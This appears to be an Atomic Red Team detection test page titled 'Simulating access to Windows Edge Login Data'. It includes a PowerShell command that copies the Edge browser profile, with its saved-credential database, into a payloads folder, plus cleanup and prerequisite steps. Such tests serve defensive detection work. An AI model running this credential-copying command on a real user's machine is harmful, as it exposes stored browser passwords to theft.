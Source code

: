 


<br/>
<br/>

## Atomic Test #7 - Simulating access to Windows Edge Login Data
Simulates an adversary accessing encrypted credentials from Edge web browser's login database.
more info in https://www.forensicfocus.com/articles/chromium-based-microsoft-edge-from-a-forensic-point-of-view/

**Supported Platforms:** Windows


**auto_generated_guid:** a6a5ec26-a2d1-4109-9d35-58b867689329






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default" -Destination "PathToAtomicsFolder\..\ExternalPayloads\Edge" -Force -Recurse
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Edge" -Force -ErrorAction Ignore -Recurse
```



#### Dependencies:  Run with `powershell`!
##### Description: Edge must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
"Installation is not implemented as Edge is a part of windows"
```
##### Description: Edge login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$edge="C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
Start-Process $edge 
Start-Sleep -s 20
Stop-Process -Name msedge
```
